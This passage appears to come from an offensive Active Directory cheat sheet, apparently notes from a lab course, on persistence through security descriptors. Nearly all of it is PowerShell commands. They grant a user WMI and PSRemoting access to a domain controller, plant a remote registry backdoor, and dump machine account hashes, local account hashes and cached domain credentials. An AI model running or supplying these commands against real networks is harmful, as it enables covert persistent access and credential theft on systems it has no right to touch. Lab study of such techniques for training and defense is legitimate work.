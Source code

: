 {% endcode %}
{% endtab %}

{% tab title="Security Descriptors" %}
Establish privileged-independent access to remote management interfaces.

{% code overflow="wrap" %}
```powershell
# WMI (RACE)

# On local machine
Set-RemoteWMI -SamAccountName student337 -Verbose

# On remote machine without explicit credentials
Set-RemoteWMI -SamAccountName dcorp\student337 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

# On remote machine with explicit credentials
Set-RemoteWMI -SamAccountName dcorp\student337 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose

# Access the target via WMI
Get-WmiObject -Class Win32_OperatingSystem -ComputerName dcorp-dc

# Remove permissions on remote machine
Set-RemoteWMI -SamAccountName dcorp\student337 -ComputerName dcorp-dc -namespace 'root\cimv2' -Remove -Verbose
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
# PSRemoting (unstable post-2020)

# On local machine
Set-RemotePSRemoting -SamAccountName student337 -Verbose

# On remote machine without credentials (the error is expected)
Set-RemotePSRemoting -SamAccountName dcorp\student337 -ComputerName dcorp-dc -Verbose

# Access the target host
Enter-PSSession dcorp-dc

# Remopve the permissions from the remote machine
Set-RemotePSRemoting -SamAccountName dcorp\student337 -cn dcorp-dc -Remove
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
# Remote registry (disabled by default)

# Assign remote registry access to the target user
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student337 -Verbose

# Retrieve machine account hash (and continue with a ST attack!)
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```
{% endcode %}
{% endtab %}
{% endtabs %}